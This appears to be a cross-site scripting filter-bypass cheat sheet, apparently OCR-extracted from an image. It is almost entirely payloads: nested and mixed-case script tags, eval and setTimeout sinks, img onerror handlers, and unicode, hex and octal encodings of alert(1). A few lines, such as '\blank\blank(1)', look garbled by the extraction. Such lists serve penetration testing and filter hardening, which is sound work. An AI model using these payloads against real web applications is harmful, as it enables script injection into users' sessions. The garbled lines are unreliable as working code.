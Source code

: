 ### Keyword Based in Filter

#### Alert Blocked - Bypass

```
<script>\alert(1)</script>
<script>eval("Alert(1)")</script>  
```

#### Removing script Tag - Bypass

```
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

### Scaping Quote

#### Methods

- String.fromCharCode()  
- unescape  

e.g.  
-> decode URI + unescape method (need eval)  
```
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)
```  

### Other bypass techniques

- unicode  

```
<img src=x onerror="\blank\blank(1)"/>
```

Add execution sink:  
- eval
- setInterval  
- setTimeout  
- octal
```

<img src=x onerror="eval('\alert(1)')"/>
```

- hexadecimal  

```
<img src=x onerror="setInterval('\x61lert(1)')"/>
```

- mix  (uni, hex, octa)  

```
<img src=x onerror="setTimeout('\x61\154\145\x72\164\x28\x31\x29')"/>
```
